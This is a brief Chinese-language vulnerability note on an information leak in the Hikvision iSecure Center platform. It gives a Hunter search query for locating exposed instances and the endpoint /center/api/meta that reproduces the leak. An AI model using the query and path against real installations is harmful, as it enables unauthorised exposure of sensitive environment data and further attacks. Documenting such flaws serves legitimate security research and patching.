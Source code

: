 # 海康威视iSecure Center综合安防管理平台meta信息泄漏漏洞

# 一、漏洞简介
HIKVISION 综合安防管理平台meta存在信息泄漏漏洞，攻击者通过漏洞可以获取环境等敏感信息进一步攻击。

# 二、影响版本
+ HIKVISION 综合安防管理平台

# 三、<font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/UZEDmXJYIKlsRDjT/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-820227.png)

+ 登录页面

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/UZEDmXJYIKlsRDjT/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-907355.png)

# 四、漏洞复现
```java
/center/api/meta
```

![1717150124074-93684ec4-efd3-4ec9-a16f-3c4795af2dd1.png](./img/UZEDmXJYIKlsRDjT/1717150124074-93684ec4-efd3-4ec9-a16f-3c4795af2dd1-006232.png)



> 更新: 2024-06-01 11:04:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uv9do2qdiuz3vefk>